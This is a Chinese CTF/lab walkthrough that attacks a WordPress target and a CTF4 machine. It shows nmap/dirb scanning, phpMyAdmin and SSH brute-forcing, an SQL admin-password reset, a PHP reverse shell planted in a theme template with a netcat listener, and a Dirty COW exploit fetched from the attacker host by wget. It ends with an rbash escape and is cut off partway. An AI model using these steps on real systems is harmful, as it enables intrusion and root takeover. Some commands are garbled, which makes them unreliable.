WordPress靶场
简介
WordPress是使用PHP语言开发的博客平台，用户可以在支持PHP和MySQL数据库的服务器上架设属于自己的网站。也可以把WordPress当作一个内容管理系统（CMS）来使用。
WordPress是一款个人博客系统，并逐步演化成一款内容管理系统软件，它是使用PHP语言和MySQL数据库开发的,用户可以在支持PHP 和MySQL数据库的服务器上使用自己的博客。
实验过程
第一阶段：信息收集
获取靶机IP地址
arp-scan -l

端口扫描
xxxxxxxxxxnmap -sS -p- -v -T4 192.168.128.135

nmap信息参数说明
- -A：详细扫描目标IP，加载所有脚本，全面探测信息
- -v：显示详细的扫描过程
- -sS：TCP SYN扫描
- -sS：服务版本扫描
- -p-：扫描全部端口（等同于-p 1-65535)
- -T4：级别越高扫描速度越快，最高6级
访问80端口

目录遍历
xxxxxxxxxxdirb http://192.168.128.135

==可以看到有一个phpmyadmin的数据库管理后台入口和wp-admin的网站管理后台==
第二阶段：漏洞挖掘
后台访问
访问phpmyadmin页面进行弱口令尝试
使用brup进行拦截

尝试爆破

需要遵循重定向

可以看出root的与众不同

尝试成功

第三阶段：漏洞利用
查看数据库
==可以发现有一个wordpress的数据库中有一个wp_users的数据表==

破解网站后台密码密码
看到了后台存储的账号密码，密码为MD5值
放入MD5解密工具解出密码

或者修改网站后台密码
xxxxxxxxxxUPDATE `wp_users` SET user_pass = MD5( "123456" ) WHERE user_login = "cleverbao"

修改option


登录网站后台
==账号：cleverbao 密码=123456==
打wp-admin网站后台管理系统


上传shell
生成shell
xxxxxxxxxxcat /usr/share/webshells/php/php-reverse-shell.php

复制这段shell
上传shell
点击外观，选择编辑，选择404模板，插入shell
修改shell中的ip地址为攻击机的ip监听端口为4444

执行shell
在kali中使用netcat，监听4444端口
xxxxxxxxxxnc -nlvp 4444

访问不存在的页面

通过whoami查看当前权限

当前权限为apache权限，不是root权限，需要进一步提权
$代表一般用户权限，#代表root权限
第四阶段：权限提升
脏牛提权

访问脏牛提权官网

下载压缩包并解压
https://github.com/FireFart/dirtycow/blob/master/dirty.c
打开文件夹并进入终端


编译
xxxxxxxxxxgcc -pthread dirty.c -o dirty -lcrypt给予权限
xxxxxxxxxxchmod +x dirty 
攻击机架设web服务
xxxxxxxxxxpython3 -m http.server 80靶机上下载dirty
xxxxxxxxxxcd /tmpwget http://192.168.128.129/dirty //获取攻击机上的dirty
提权
xxxxxxxxxx./dirty new_passwd //任意新密码
登录靶机服务器
账号：firefart 密码：123456

思路总结
进攻过程
信息收集：主机发现、扫描和识别端口服务，找到22、80、3306等服务
xxxxxxxxxx// 使用命令arp-scan -l // 主机发现nmap -sS -sS -p- -v -T4 192.168.128.135 // 端口扫描
敏感目录扫描：找到敏感后台路径
xxxxxxxxxxdirb http；//192.168.128.135 // 目录遍历
使用brup进行弱口令爆破，登录数据库后台，发现/修改网站后台账号密码
利用网站账号登录网站后台是实现挂马
xxxxxxxxxxcat /usr/share/webshells/php/php-reverse-shell.php //生成kali自带shellnc -nlvp prot //监听端口，prot木马端口例如：4444
使用Dirty Cow漏洞提权，获取管理员账号实现root权限
xxxxxxxxxx攻击机gcc -pthread dirty.c -o dirty -lcrypt //编译xxxxxxxxxx1 1chmod +x dirtypython3 -m http.server 80 //假设web服务靶机cd /tmpwget http://192.168.128.129/dirty //获取攻击机上的dirty./dirty new_passwd //任意新密码
防御过程
- 关闭不需要的端口，遵循最小话原则
- 使用常见网站CMS时，修改默认后台路径
- 使用PhpmyAdmin时，修改默认路径和密码
- 升级操作系统版本，不定时打补丁修复漏洞
- 关注最新漏洞情报，提升安全运维响应能力
CTF4
1、信息收集
扫描内网主机
xxxxxxxxxxnetdiscover -i eth0 -r 192.168.128.0/24

发现目标主机IP：192.168.128.136
扫描目标主机端口
xxxxxxxxxxnmap -sS -p- -v -T4 192.168.128.138
发现目标主机开启：22(SSH)、80(HTTP)、31337端口

尝试访问目标主机HTTP服务
可以看出网页中没有按钮

尝试访问主机31337端口

查看网页源代码
看到代码注释中有一段被加密的字符，以等号结尾，判断其加密类型为Base64


解码
发现没有价值，出现一个cypher.matrix文件
xxxxxxxxxxecho "密文" | base64 -d // -d为解码

尝试在URL上访问
下载一个文件
Brainfuck 语言

尝试解码

翻译：你可以以guest的身份进入matrix，密码为k1ll0rxx。注:实际上，我忘记了最后两个字符，所以我用XX代替了，试试你的运气，找到正确的密码字符串。
漏洞挖掘与利用
生成密码字典
xxxxxxxxxxcrunch 8 8 -t k1ll0r%@ -o dict.txt // crunch 8(最小长度) 8(最大长度) -t(@:小写字母，%:数字) -o(输出) 字典名字
暴力破解
xxxxxxxxxxhydra -l guest -P dict.txt 192.168.128.138 ssh

SSH登录
账号：guest 密码：k1ll0r7n

登录上之后发现权限不够，-rbash权限非常小
需要切换shell

查看可以使用的命令
发现只可以使用vi

权限提升
在vi编辑器中!在命令前代表调用外部命令，在命令后代表强制执行
通过vi编辑器进行切换shell

切换后发现错误输出为bash，shell切换成功

ls命令可以使用

使用echo $PATH查看shell路径

查找能够sudo的shell目录，一般存放在bin目录下

在当前环境变量中添加，并尝试登录，提示：没有su命令

查找su命令

